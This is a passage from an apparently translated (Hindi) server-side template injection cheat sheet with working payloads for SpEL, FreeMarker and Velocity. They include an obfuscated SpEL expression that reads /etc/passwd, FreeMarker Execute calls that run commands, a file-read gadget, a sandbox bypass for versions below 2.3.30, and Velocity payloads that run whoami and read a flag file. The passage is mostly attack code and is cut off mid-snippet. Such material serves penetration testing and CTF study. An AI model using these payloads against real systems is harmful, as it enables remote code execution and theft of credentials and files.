 ```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
### FreeMarker (Java)

आप अपने पेलोड्स को [https://try.freemarker.apache.org](https://try.freemarker.apache.org) पर आजमा सकते हैं

* `{{7*7}} = {{7*7}}`
* `${7*7} = 49`
* `#{7*7} = 49 -- (legacy)`
* `${7*'7'} कुछ नहीं`
* `${foobar}`
```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```
**Freemarker - सैंडबॉक्स बायपास**

⚠️ केवल Freemarker के 2.3.30 से नीचे के संस्करणों पर काम करता है
```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```
**अधिक जानकारी**

* [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection) के FreeMarker अनुभाग में
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)

### Velocity (Java)
```java
// I think this doesn't work
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end

// This should work?
#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat%20/flag563378e453.txt"))
#set($out=$process.getInputStream())
#set($null=$process.waitFor() )
#foreach($i+in+[1..$out.available()])
```